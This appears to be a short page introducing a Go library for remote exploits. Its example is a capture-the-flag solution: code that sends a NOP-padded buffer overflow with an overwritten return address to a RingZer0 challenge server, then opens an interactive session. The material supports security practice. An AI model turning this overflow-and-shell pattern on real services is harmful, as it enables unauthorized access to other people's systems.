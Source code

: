 ##### http://www.securitysignal.org/2015/12/securitysocket-remote-exploit-library.html #####

Install Library: go get github.com/hdbreaker/Go-SecuritySocket/ssocket

Example: # Solution with Go of Challenge https://ringzer0team.com/challenges/181

#exploit.go
package main

import (
	"bytes"
	"encoding/binary"
	"strings"
	"github.com/hdbreaker/Go-SecuritySocket/ssocket"
)

func main() {

	var raoPromptAdress uint32 = 0x40149B //dirección de memoria de rao_promt
	buffRao := new(bytes.Buffer)
	binary.Write(buffRao, binary.LittleEndian, &raoPromptAdress)
	payload := strings.Repeat("\x90", 56) + string(buffRao.Bytes())
	ss := ssocket.SecuritySocket{Protocol: "tcp", Host: "ringzer0team.com:1001"}
	conn := ss.Connect()
	ss.Send(conn, payload)
	ss.Interactive(conn)

}
